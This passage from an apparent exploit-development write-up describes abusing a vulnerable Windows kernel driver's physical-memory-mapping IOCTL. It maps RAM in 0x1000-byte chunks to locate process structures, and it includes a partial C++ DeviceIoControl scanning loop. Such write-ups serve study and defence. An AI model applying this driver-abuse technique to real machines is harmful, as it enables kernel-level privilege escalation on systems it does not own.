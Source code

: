 So this looks promising.

## Implementing Strategy in Code

One difficulty I faced on my Windows 10 build was that mapping large chunks at a time with `DeviceIoControl` calling our driver routine would often result in crashes. I didn't have this problem at all on Windows 7. In my Windows 7 exploit I was able to map a `0x4CCCCCCC` byte chunk and parse through the entire thing looking for the values I was after. 

On Windows 10, I found the most stable approach to be to map `0x1000` (small page-sized) chunks at a time and then parse through these mapped chunks for my values. If I didn't find my values, I would map another `0x1000`. This too wasn't crash free. I found that if I made too many mappings I would also crash so I had to find a sweet spot.

I also found that some calls to the driver routine with `DeviceIoControl` would return a failure. I wasn't able to completely figure this out but my suspicion is that since our `CacheType` is hardcoded for us with `MmMapIoSpace`, if we tried to map pages that had been given a different `CacheType` in a previous mapping to a virtual address, it would fail. (Does this make sense?)

Picking a physical address to start mapping from is kind of arbitrary but I found the sweet spot on my Windows 10 VM to be around `0x200000000`. This VM has about 8 GB of RAM. To limit the amount of mappings, I set a hard cap at `0x240000000` so that my exploit would stop mapping once it hit this address. I also toyed around with adding a limit to the amount of times `DeviceIoControl` is called but the exploit seems stable enough in testing that this wasn't necessary in the end. 

I used two main functions, the first function maps memory iteratively looking to identify the **physical** addresses of of "Proc" tags that have our "header marker" value soon after. This function stores the address of each physical location and the size of the header offset and appends them to two different vectors. These vectors are the sole members of a struct which the function returns. Here is some of that snipped code:

```cpp
cout << "[>] Going fishing for 100 \"Proc\" chunks in RAM...\n\n";
    while (proc_count < 100)
    {
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
        INT64 start_address = START_ADDRESS + (0x1000 * iteration);

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        if (input_buff.start_address > MAX_ADDRESS)
        {
            cout << "[!] Max address reached!\n";
            cout << "[!] Iterations: " << dec << iteration << "\n";
            exit(1);
        }
        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // The virtual address in our process space where RAM was mapped
            // is located in the first 8 bytes of our output_buff.
            INT64 mapped_address = *(PINT64)output_buff;

            // We will read a 32 bit value at offset i + 0x100 at some point
            // when looking for 0x00B80003, so we can't iterate any further
            // than offset 0xF00 here or we'll get an access violation.
            for (INT64 i = 0; i < (0xF10); i = i + 0x10)
            {
```
